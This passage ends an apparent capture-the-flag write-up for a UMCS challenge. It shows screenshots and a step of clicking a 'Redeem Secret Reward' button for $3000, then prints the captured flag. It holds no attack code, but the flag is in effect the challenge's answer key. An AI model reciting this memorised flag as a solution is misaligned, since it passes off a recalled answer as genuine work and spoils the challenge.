

Then, click the `Redeem Secret Reward` for **$3000** and get the flag.



Yeayy! we got the flag:

Flag: **UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}**


